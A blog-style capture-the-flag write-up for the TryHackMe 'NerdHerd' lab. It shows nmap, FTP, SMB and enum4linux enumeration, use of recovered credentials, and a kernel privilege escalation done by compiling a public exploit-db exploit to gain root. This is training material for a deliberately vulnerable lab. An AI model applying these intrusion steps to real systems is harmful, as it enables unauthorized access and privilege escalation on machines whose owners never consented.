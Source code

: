 ```yaml
---
layout: default
title : NerdHerd - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 06, 2020**_

[NerdHerd](https://tryhackme.com/room/nerdherd) Writeup

## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.203.70
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11 03:45 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -36m51s, deviation: 1h09m15s, median: 3m07s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2020-11-06T20:27:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T18:27:26
|_  start_date: N/A
```

## FTP :

login to FTP we get a directory `/pub`, inside it a picture and a hidden directory  :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ ncftp 10.10.203.70
ncftp /pub > ls -la
drwxr-xr-x    2 ftp      ftp          4096 Sep 14 18:35 .jokesonyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11 03:45 youfoundme.png
ncftp /pub > cd .jokesonyou   
ncftp /pub/.jokesonyou > ls
hellon3rd.txt
```
running exiftoot on the image we get this :
```
Owner Name                      : fijbxslz
```

## Web Enum :

going to the web page and brute force directories we get a `/admin` that had something in the code source :

```
<!--
	these might help:
		Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
-->
```
When we decrypt it it gives :
```
Y2liYXJ0b3dza2k= : cibartowski
aGVoZWdvdTwdasddHlvdQ== : hehegou<.jÇ].[ÝD
```

## SMB :

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ nbtscan 10.10.203.70

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.10.203.70     NERDHERD         <server>  NERDHERD         00:00:00:00:00:00
```

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient --no-pass -L 10.10.203.70

Sharename       	        Type      Comment
---------       	        ----      -------
print$          	        Disk      Printer Drivers
nerdherd_classified 	    	Disk      Samba on Ubuntu
IPC$            	        IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```
I tried accessing the `nerdherd_classified` but we need a valid user to login with, so i tried this :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ enum4linux 10.10.203.70
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov  6 14:06:12 2020

 ========================== 
|    Target Information    |
 ========================== 

Target ........... 10.10.203.70
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 
============================= 
|    Users on 10.10.203.70    |
 ============================= 

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: chuck    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
```

Looks like user `chuck` have access to the shared folder, i tried accessing it with the creds i got earlier, but nothing!! so i asked the author!! this one `fijbxslz` was `Vigenere
Cipher` ! And the key to decrypt it is the youtube title we got earlier :
```
Key : birdistheword
Password : easypass
```
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient -U chuck //10.10.203.70/nerdherd_classified
Enter WORKGROUP\chuck's password: 
smb: \> dir
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020
```
And we have access to the shared folder.

inside the file we get a directory and that leed us to ssh creds :))


## Internal Enum :

When i ran linpeas i noticed that this machine is running an outdated kernel :
```
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for it and i found this [Exploit](https://www.exploit-db.com/exploits/45010)

I downloaded the exploit into my machine and transferred it to the victims machine :

```
chuck@nerdherd:~$ gcc 45010.c -o exploit
chuck@nerdherd:~$ chmod +x exploit 
chuck@nerdherd:~$ ./exploit 
root@nerdherd:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```

And we got ROOOOT :)))

For the root flag i did someting like this :
```
root@nerdherd:/root# find / -user root -type f -iname "*.txt"
```
Accourding to the room hint, the bonus flag is 100% located in `.bash_history`.


<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
